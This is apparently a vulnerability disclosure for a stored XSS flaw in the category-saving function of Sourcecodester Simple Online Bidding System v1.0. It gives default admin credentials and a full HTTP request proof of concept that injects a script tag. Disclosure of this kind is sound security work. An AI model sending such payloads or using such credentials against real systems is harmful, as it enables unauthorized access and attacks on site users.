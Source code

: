 XSS vulnerability exists in Sourcecodester Simple Online Bidding System

official website:https://www.sourcecodester.com/php/14558/simple-online-bidding-system-using-phpmysqli-source-code.html

version:v1.0

route：/simple-online-bidding-system/admin/index.php?page=categories

related code file：admin_class.php

related_function：save_category()

#### 1.Vulnerability analysis

The `save_category()` function in `admin_class.php` receives category-related parameters via POST without validating or escaping the incoming parameters. It directly concatenates these parameters into the SQL `insert` statement, which allows attackers to insert malicious script statements and execute XSS attacks.

![image-20240523192026508](SourceCodester Simple Online Bidding System CSRF-2.assets/image-20240523192026508.png)

#### 2.Vulnerability verification and exploit

We need log in to the system backend as admin/admin123.The exploit proof-of-concept (PoC) for this vulnerability is as follows. When using it, you need to modify the relevant address information in the PoC according to the target environment, such as the host and refer fields.

```
POST /admin/ajax.php?action=save_category HTTP/1.1
Host: 10.15.6.184:81
Content-Length: 254
Accept: */*
X-Requested-With: XMLHttpRequest
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/113.0.5672.127 Safari/537.36
Content-Type: multipart/form-data; boundary=----WebKitFormBoundary1k9MfksQcNnRazPp
Origin: http://10.15.6.184:81
Referer: http://10.15.6.184:81/admin/index.php?page=categories
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Cookie: PHPSESSID=vvku8vnm5dicgigog9a9tc6p41
Connection: close

------WebKitFormBoundary1k9MfksQcNnRazPp
Content-Disposition: form-data; name="id"


------WebKitFormBoundary1k9MfksQcNnRazPp
Content-Disposition: form-data; name="name"

xss<script>alert(111)</script>
------WebKitFormBoundary1k9MfksQcNnRazPp--

```

After successfully executing the PoC, you can observe that the malicious pop-up has occurred on the Home page accessible to regular users, indicating a successful XSS attack.

![image-20240523192652221](SourceCodester Simple Online Bidding System CSRF-2.assets/image-20240523192652221.png)


